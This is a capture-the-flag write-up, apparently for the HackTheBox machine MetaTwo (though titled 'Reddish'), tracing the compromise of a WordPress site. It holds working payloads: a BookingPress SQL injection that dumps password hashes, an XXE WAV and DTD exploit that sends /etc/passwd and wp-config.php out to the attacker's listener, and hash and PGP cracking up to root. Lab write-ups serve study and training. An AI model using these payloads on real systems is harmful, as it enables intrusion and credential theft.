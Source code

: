 ```yaml
---
layout: post
title: "Reddish"
date: 2025-04-20 
categories: cpts preparation
---
```

# Attack Path

First enumerate the open ports and services

```bash
rustscan -a 10.129.228.95

sudo nmap -sV -sC -p 21,22,80 10.129.228.95 -oA nmap/metatwo

result:
PORT   STATE SERVICE VERSION
21/tcp open  ftp?
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c4:b4:46:17:d2:10:2d:8f:ec:1d:c9:27:fe:cd:79:ee (RSA)
|   256 2a:ea:2f:cb:23:e8:c5:29:40:9c:ab:86:6d:cd:44:11 (ECDSA)
|_  256 fd:78:c0:b0:e2:20:16:fa:05:0d:eb:d8:3f:12:a4:ab (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

upon visiting the IP, we get a domain metapress.htb, let’s add that to /etc/hosts

Let’s try the ftp server.

```bash
ftp 10.129.228.95
```

Let’s enumerate subdirectories and subdomains

```bash
gobuster dir -u http://metapress.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```

Also from the webapplyzer, we find out the website is using WordPress 5.6.2 and php 8.0.62

Let’s use wpscan to find out plugin and theme vulnerabilties

```bash
sudo wpscan --url http://metapress.htb -e ap --plugins-detection aggressive  --api-token 2xkAZXNy4fEMFKyADzmPF2VTMDYb9qV3aUtDrDK5Zzs

result:
bookingpress-appointment-booking
The version used is out of date and there are a lot of vulnerabilities
unauthenticated SQL injection -  https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357/

```

The POC found is

```bash
curl -i 'https://example.com/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
 
 
#We use this command but search up the wp_nonce used on the target website and change that:

curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=1c907fdc18&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
  
result:
[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}] 

```

Now we confirmed the vulnerability exist, we can send the request to burp and save it to a file for sqlmap to use. First turn burp intercept on, then execute:

```bash
curl -s -q 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=1c907fdc18&category_id=33&total_service=-7502' -x http://127.0.0.1:8080   #-x is proxy
```

If burp proxy did not catch that, just go on the proxy tab and go to http history and find the request. Once found save the file then use; We get a warning saying the parameter total_service had leftover manual injection which is a negative number, simply remove the negative sign and sqlmap will run smoothly. It seems the parameter is vulnerable to time-based injection:

```bash
sqlmap -r booking.req --batch --dbs

result:
available databases [2]:
[*] blog
[*] information_schema

sqlmap -r booking.req --batch -D blog --tables

```

However, sqlmap is taking a very long time because it is a time-based attack. Let’s carry on manually. We want to retrieve user credentials from wordpress, and the default table for that is wp_users. Let’s try and extract the username and password from that:

```bash
curl -s -q 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=1c907fdc18&category_id=33&total_service=-7502) UNION ALL SELECT user_login,user_pass,@@version_compile_os,1,2,3,4,5,6 from wp_users-- -' | jq .

result:
"bookingpress_service_id": "admin",                                                                                                                   
    "bookingpress_category_id": "$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.", 
    
    
    "bookingpress_service_id": "manager",                                                                                                                 
    "bookingpress_category_id": "$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70",  
```

We can use the curl options and pipe it to jq (as it comes back as json data) to view it better. Now we have the hashes for admin user and manager. Let’s use hashcat to crack the hash on native host; not vm. Put the has

```bash
hashcat.exe -m 400 wordlists\admin_hash.txt wordlists\rockyou.txt

hashcat.exe -m 400 wordlists\admin_hash.txt --show

#manager:partylikearockstar

#admin:
```

We know the admin login for wordpress is at /wp-admin, let’s navigate to the url and attempt to log in with manager credentials. Success. On the site, in the media tab, we see we can upload files. Let’s try and upload a webshell. We get an error. Looking for wordpress 5.6.2 exploit we find this blog: [https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/). Let’s use this explot. First create a wav file

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.132:8001/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

Next create the dtd file:

```bash
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">

<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.132:8001/?p=%file;'>" >
```

We got a base64 encoded message back. To decode, simply:

```bash
echo 'PASTE_HERE' | base64 -d

result:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bash
systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:105:111:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:106:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:107:65534::/srv/ftp:/usr/sbin/nologin

```

Now, let’s try and view the wp-config.php file to see if any credentials are leaked here.

```bash
#CHANGE FROM :
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">

#TO:
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=../wp-config.php">
```

We find ftp user’s password. Let’s add the subdomain ftp.metapress.htb in /etc/hosts/ and try to log on to the ftp server

```bash
ftp ftp.metapress.htb
```

Looking through the FTP server. Found a file send_mail.php. Found another set of credentials and another subdomain mail.metapress.htb. In our initial enumeration, we did not find a mail server. Let’s try and login to ssh with the set of credentials. It worked. In jnelson’s directory we list all files with:

```bash
ls -al
find . -type f
```

We find hidden dir .passpie, and in there we find root.pass with a PGP message.  We also find a file .key containing the pgp key. Let’s use johntheripper to crack the password.

First save the pgp key and convert it to john format

```bash
gpg2john pgp_key

#save output to new file gpg_john
Passpie:$gpg$*17*54*3072*e975911867862609115f302a3d0196aec0c2ebf79a84c0303056df921c965e589f82d7dd71099ed9749408d5ad17a4421006d89b49c0*3*254*2*7*16*21d36a3443b38bad35df0f0e2c77f6b9*65011712*907cb55ccb37aaad:::Passpie (Auto-generated by Passpie) <passpie@local>::pgp_key
```

Now crack it with john

```bash
john.exe --format=gpg --wordlist=C:\Users\oahzl\Desktop\hashcat-6.2.6\wordlists\rockyou.txt C:\Users\oahzl\Desktop\shared\gpg_john

john.exe --format=gpg C:\Users\oahzl\Desktop\shared\gpg_john --show
```

Now we can use passpie to export the passwords

```bash
passpie export /home/jnelson/creds
cat creds
```

We have root password. Now just switch account

```bash
su root
```

- wordpress plugin vulnerability
- booking-press
- sql injection vulnerability
- wordpress 5.6.2 vulnerability
- xxe file disclosure
- john to crack gpg password